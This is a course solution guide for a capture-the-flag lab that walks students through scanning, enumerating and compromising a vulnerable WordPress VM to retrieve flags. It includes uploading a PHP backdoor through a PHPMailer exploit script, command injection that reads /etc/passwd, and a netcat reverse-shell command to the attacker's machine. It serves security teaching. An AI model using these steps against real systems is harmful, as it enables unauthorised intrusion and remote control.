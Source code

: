 ## Solution Guide: Attacking Target 2

This solution file details the steps for  capturing the first three flags on Target 2.

1. Use Nmap to identify the IP address of Target 2.

    ```bash
    # Reveals Target 2 at `192.168.1.115`
    $ nmap -sP 192.168.1.1-255
    ```

2. Use Nmap to document all exposed ports and services at this IP address.

    ```bash
    # Reveals Target 2 at `192.168.1.115`
    $ nmap -sV 192.168.1.115
    ```

3. Enumerate the web server with `nikto`.

     - **Hint**: Run: `nikto -C all -h <URL>`.
     - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?

    ```bash
    # Generate a list of discovered URLs
    # Note that this discovers `wordpress` directories
    $ nikto -C all -h http://192.168.1.115
    ```

4. Perform a more in-depth enumeration with `gobuster`.
 
    ```bash
    $ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115
    ```
 
   Navigating to `http://192.168.1.115/vendor` reveals a `flag1.txt` in the directory.

5. Use “searchsploit” to find any known vulnerabilities associated with the programs found in Step #4.
    
    - Run: `searchsploit phpmailer` 

6. Use the `exploit.sh` script to exploit this vulnerability by opening an ncat connection to your Kali VM.
    
    - The easiest way to get the script onto the Kali VM is to use a web text/paste service like https://pastebin.com to copy the script from your local machine to the web, and then retrieve it from the Kali Machine.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute **command injection attacks**.

    - Navigate to `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`.

      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener with `nc -lnvp 4444`.
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

    **Solution**

      - First, edit line 4 in `exploit.sh` to read: `TARGET=http://192.168.1.115/contact.php`.

      - Then, execute the script: `bash exploit.sh`

      - Next, start an ncat listener with `nc -lvp 4444`

      - Finally, navigate to the following URL in the browser: `http://192.168.1.115?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

    ```bash
    $ ls /var/www
    flag2.txt
    ```

8. Next, find a flag in the WordPress uploads directory.
     
     - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

      ```bash
      $ find /var/www/html -type f -iname 'flag*'
      /var/www/html/wp-content/uploads/2018/11/flag3.txt
      ```

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult. For now, move on to completing a report about Target 2.

An complete online solution guide for Target 2 is available [here.](https://hackso.me/raven-2-walkthrough/).

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
